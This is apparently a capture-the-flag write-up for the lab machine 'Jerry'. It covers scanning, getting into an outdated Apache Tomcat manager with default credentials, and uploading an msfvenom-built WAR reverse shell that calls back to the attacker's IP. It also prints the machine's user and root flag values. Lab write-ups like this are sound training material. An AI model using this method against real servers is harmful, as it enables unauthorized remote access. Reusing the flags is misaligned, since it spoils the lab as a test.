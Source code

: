 ![Image](/assets/Jerry.png)

Jerry is a very simple box with the purpose of tasking the attackers to work on basic web-enumeration, unrestricted file upload parameters, and simple payload creation. Let's get to it.

### Reconnaissance

Our Scan: `nmap -sV -sC --open -p- 10.10.10.95`

Our Result:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 20:58 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.42 seconds

```

### Service Enumeration

By the looks of it, we've got one route here. Apache Tomcat is server hosting software, and this version here is pretty outdated and vulnerable. Specifically, we're able to use the /manager/html path to deploy malicious WAR files to the server. All we need are some credentials to access.

When we navigate to the page, we're met with this screen.

![Image](/assets/Screenshot 2024-09-03 at 9.08.45 PM.png)

We can see a manager tab on the left. Rooting around a bit, we can gather some more information about the structure of tomcat configurations. However, when we try to navigate to the /manager/html path, we're prompted with a credential portal. 

Now, I tried a few different default credentials and eventually got a 403_Access_Denied

![Image](/assets/Screenshot 2024-09-03 at 9.12.33 PM.png)

We can see, though, default credentials are given here in plain text. After reinstating the machine and rebooting Firefox, I was able to login again with those.

### Initial Access

Once in, there is good information regarding the name of the machine, services in use, versions, etc. 

![Image](/assets/Screenshot 2024-09-03 at 9.28.44 PM.png)

But, I'm interested in the file upload, as it looks like we have access to gain a shell via malicious files. In order to create one, it'll need to be WAR to fit the server's parameters. 

![Image](/assets/Screenshot 2024-09-03 at 9.29.58 PM.png)

We can use MSFVenom to create one for us, using: 
`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.3 lport=4321 -f WAR -o pwn.war`

This will create what we need, and we can upload it directly into the site. Once deployed, set up a listener for the port that we specified in the file. Once that is set, act on the file via tomcat, and boom. Shell.

![Image](/assets/Screenshot 2024-09-03 at 9.49.20 PM.png)

### Post Exploitation

Now, we've gotta find the flags. Syntax here was a bit new to me, but I figured it out. Here's some tips to remember

```
DIR - Directory listing
MORE - Almost 'cat' equivilent
```

Once you navigate to admin, this is what you find!

```
C:\Users\Administrator\Desktop\flags>DIR
DIR
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,560,448 bytes free


C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

C:\Users\Administrator\Desktop\flags>

```

#easy #windows #manual 